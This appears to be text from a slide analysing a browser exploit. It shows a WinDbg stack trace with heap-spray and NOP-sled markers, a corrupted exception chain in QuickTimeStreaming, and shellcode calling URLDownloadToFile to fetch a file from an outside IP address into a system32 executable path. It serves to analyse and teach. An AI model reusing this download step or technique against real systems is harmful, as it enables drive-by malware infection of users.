

0:008> k99
ChildEBP RetAddr
047a0ffc 76db728b kernel32!TlsGetValue+0x2
047a100c 76db817b wininet!InternetGetThreadInfo+0x18
047a1bdc 776af8db wininet!InternetQueryOptionA+0x81
047a1c14 ...
047a26ac 77716524 urlmon!URLDownloadToFileW+0x51

047a27e4 775117b7 urlmon!URLDownloadToFileA+0x109
…
047a733c: urlmon!_except_handler4+0 (77723fff)
047a7418: user32!_except_handler4+0 (771480eb)
047a747c: user32!_except_handler4+0 (771480eb)
047a7be0: ntdll!ExecuteHandler2+3a (77eeb6e5)
047a83f4: ntdll!ExecuteHandler2+3a (77eeb6e5)
047a8c08: ntdll!ExecuteHandler2+3a (77eeb6e5)
047a941c: ntdll!ExecuteHandler2+3a (77eeb6e5)
047a9c30: ntdll!ExecuteHandler2+3a (77eeb6e5)
047aa444: ntdll!ExecuteHandler2+3a (77eeb6e5)
047aac58: ntdll!ExecuteHandler2+3a (77eeb6e5)
047ab46c: ntdll!ExecuteHandler2+3a (77eeb6e5)
…
0489e938: 0c0c0c0c
Invalid exception stack at 0c0c0c0c
0489e740 90909090 QuickTimeStreaming+0x806b1
00000000 00000000 0x90909090
0337664508.cab
Download?

                        struct IUnknown * caller = 0x00000000,
                        wchar_t * szURL = 0x047a2764 "http://81.29.241.20/spk2/file.php",
                        wchar_t * szFileName = 0x047a26e4 "C:\Windows\system32\~.exe",
                        unsigned long dwReserved = 0,
                        struct IBindStatusCallback * callback = 0x00000000)+0x51
492 exception
frames

exploit